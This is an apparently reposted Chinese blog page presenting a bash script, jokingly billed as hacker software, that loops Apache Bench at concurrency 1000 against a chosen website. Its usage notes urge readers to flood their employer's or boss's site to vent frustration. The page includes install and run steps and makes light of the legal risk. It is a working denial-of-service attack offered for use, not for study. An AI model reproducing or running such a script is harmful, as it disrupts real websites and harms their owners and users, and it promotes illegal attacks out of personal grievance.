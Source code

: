 ```yaml
---
title: 持续进攻
date: 2018-05-07 16:39:27
tags:
archives:
categories:
---
```

# [转][BOSS开源软件(一)：黑客帝国之持久进攻](https://user.qzone.qq.com/525150008)

 **使用说明：**\
（1）该软件属于中华人民共和国的法定危险品，请谨慎使用。\
（2）该软件的推荐使用范围仅限于：对公司或上级领导不满，且不便于和他们多度交流时，可使公司相关的网站作为个人情绪的发泄对象。切不可伤害无辜。\
（3）声明：切不可把该软件作为凌弱之手段，切不可伤害无辜。\
（4）如果您多度使用而进了那个地方，这一切都是您刻苦钻研自学成才之结果，皆与本人无关。\
（5）该软件目前只支持Linux操作系统和苹果OSX操作系统，若需要Windows版本的，请自行研发。\
（6）软件使用者自感为黑客，且不熟悉Linux或OSX的，官方推荐：您还是早点投胎去吧，上帝会原谅您的过错的！

代码：\
(1) 打开Linux终端或OSX终端，新建文件`h.sh` \
(2) 编辑文件`h.sh`，并保存。代码内容如下：
````
#!/bin/bash
# 注释：下面变量DOMAIN可以修改成你需要的网站域名 
DOMAIN="http://www.yourdomain.com/"
COUNT=1000
while true
do
    ab -c $COUNT -n  $COUNT $DOMAIN
done
````
(3) 添加h.sh的执行权限，输入命令：`chmod +x h.sh`\
(4) 执行软件，输入命令：`./h.sh`

### 注意事项：
1. 如果系统提示找不到`ab`命令时，您需要自行安装`ApacheWeb`服务器。

    （1）在如CentOS/Fedora等Linux操作系统，输入命令：sudo yum install httpd

    （2）在如Ubuntu等Linux操作系统，输入命令：sudo apt-get install httpd

    （3）在苹果OSX，只需在官方下载相应的安装包进行安装即可

2. 您修改代码的DOMAIN变量却会不断出现类似于帮助的信息时，请先按Ctrl+C终止当前执行进程，检查DOMAIN格式是否正确。

    例如：我们设置DOMAIN为百度，我们必需写成
    `http://www.baidu.com/`(注意反斜杠)，而不能`www.baidu.com`或`http://www.baidu.com`

3. 如果您已经满足使用该软件的效果，请及时停止使用，按Ctrl+C终止该软件。

### 总结：
我们欢迎使用该软件在有限范围内用于发泄个人的不良情绪。

但我们需要再次提示：
  
该软件属于中华人民共和国的法定危险品，请谨慎使用。